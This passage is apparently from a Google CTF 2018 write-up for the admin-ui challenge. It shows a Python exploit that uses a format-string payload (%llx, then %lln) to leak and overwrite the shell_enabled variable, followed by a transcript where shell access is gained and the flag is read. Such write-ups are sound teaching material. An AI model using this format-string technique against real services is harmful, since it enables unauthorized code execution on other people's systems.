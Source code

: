```py

s.sendall("echo B%40$llxABC" + struct.pack("<Q",0x0000000041616138) + "\n")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Launching the script confirms our address overwrite.

```bash
root@kali:~/google-ctf-2018/admin-ui# python exploit.py 
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
Please enter the backdoo^Wservice password:
! Two factor authentication required !
Please enter secret secondary password:
Authenticated
> B41616138ABC8aaA
```

As mentioned before, if we change the "x" in our <code>echo</code> command to "n", the contents of <b>0x41616138</b> will be overwritten with the number of bytes we've written so far with <code>echo</code>. Doing so will alter the <b>shell_enabled</b> variable seen in our graph view to no longer contain "0". When this happens, we should be able to trigger a shell.

Our echo command now looks like the following:
```py
s.sendall("echo B%40$llnABC" + struct.pack("<Q",0x0000000041616138) + "\n")
```

If we execute the modified script, we should be able to trigger a shell.


```bash
root@kali:~/google-ctf-2018/admin-ui# python exploit.py 
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
Please enter the backdoo^Wservice password:
! Two factor authentication required !
Please enter secret secondary password:
Authenticated
> BABC8aaA
> shell
ls -la
total 144
drwxr-xr-x 3 user   user      4096 Oct 24 19:06 .
drwxr-xr-x 3 nobody nogroup   4096 Oct 16 15:10 ..
-rw-r--r-- 1 user   user       220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 user   user      3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 user   user       655 May 16  2017 .profile
-rw-r--r-- 1 nobody nogroup     26 Sep 26 15:44 an0th3r_fl44444g_yo
-rw-r--r-- 1 nobody nogroup     25 Sep 26 15:44 flag
-rwxr-xr-x 1 nobody nogroup 111128 Sep 26 15:44 main
drwxr-xr-x 2 nobody nogroup   4096 Oct 24 19:06 patchnotes
cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
```

<br>
<br>
### Solution
<b>CTF{c0d3ExEc?W411_pL4y3d}</b>
